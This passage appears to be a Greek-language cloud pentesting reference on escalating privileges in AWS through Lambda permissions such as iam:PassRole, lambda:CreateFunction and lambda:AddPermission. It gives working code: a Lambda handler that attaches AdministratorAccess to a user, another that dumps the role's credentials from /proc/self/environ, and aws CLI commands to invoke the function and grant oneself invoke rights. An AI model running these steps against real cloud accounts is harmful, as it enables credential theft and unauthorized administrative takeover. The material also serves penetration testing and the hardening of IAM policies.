 ```python
import boto3
def lambda_handler(event, context):
client = boto3.client('iam')
response = client.attach_user_policy(
UserName='my_username',
PolicyArn='arn:aws:iam::aws:policy/AdministratorAccess'
)
return response
```
Είναι επίσης δυνατόν να διαρρεύσουν οι διαπιστευτήρια ρόλου του lambda χωρίς την ανάγκη εξωτερικής σύνδεσης. Αυτό θα ήταν χρήσιμο για **Διακομισμένα Lambdas** που χρησιμοποιούνται σε εσωτερικές εργασίες. Αν υπάρχουν άγνωστες ομάδες ασφαλείας που φιλτράρουν τις αντίστροφες κελύφωσης σας, αυτό το κομμάτι κώδικα θα σας επιτρέψει να διαρρεύσετε απευθείας τα διαπιστευτήρια ως έξοδο του lambda.
```python
def handler(event, context):
sessiontoken = open('/proc/self/environ', "r").read()
return {
'statusCode': 200,
'session': str(sessiontoken)
}
```

```bash
aws lambda invoke --function-name <lambda_name> output.txt
cat output.txt
```
**Πιθανή Επίπτωση:** Άμεση αύξηση προνομίων στο καθορισμένο ρόλο υπηρεσίας lambda.

{% hint style="danger" %}
Σημείωση ότι ακόμα κι αν φαίνεται ενδιαφέρον το **`lambda:InvokeAsync`** **δεν** επιτρέπει από μόνο του την εκτέλεση της εντολής **`aws lambda invoke-async`**, χρειάζεστε επίσης το `lambda:InvokeFunction`
{% endhint %}

### `iam:PassRole`, `lambda:CreateFunction`, `lambda:AddPermission`

Όπως και στο προηγούμενο σενάριο, μπορείτε **να δώσετε στον εαυτό σας την άδεια `lambda:InvokeFunction`** αν έχετε την άδεια **`lambda:AddPermission`**
```bash
# Check the previous exploit and use the following line to grant you the invoke permissions
aws --profile "$NON_PRIV_PROFILE_USER" lambda add-permission --function-name my_function \
--action lambda:InvokeFunction --statement-id statement_privesc --principal "$NON_PRIV_PROFILE_USER_ARN"
```
**Πιθανή Επίπτωση:** Άμεση ανύψωση προνομίων στο καθορισμένο ρόλο υπηρεσίας lambda.

### `iam:PassRole`, `lambda:CreateFunction`, `lambda:CreateEventSourceMapping`

Οι χρήστες με δικαιώματα **`iam:PassRole`, `lambda:CreateFunction`, και `lambda:CreateEventSourceMapping`** (και πιθανώς `dynamodb:PutItem` και `dynamodb:CreateTable`) μπορούν να ανυψώσουν προνόμια έμμεσα ακόμη και χωρίς το `lambda:InvokeFunction`.\
Μπορούν να δημιουργήσουν μια λειτουργία **Lambda με κακόβουλο κώδικα και να της αναθέσουν έναν υπάρχοντα ρόλο IAM**.
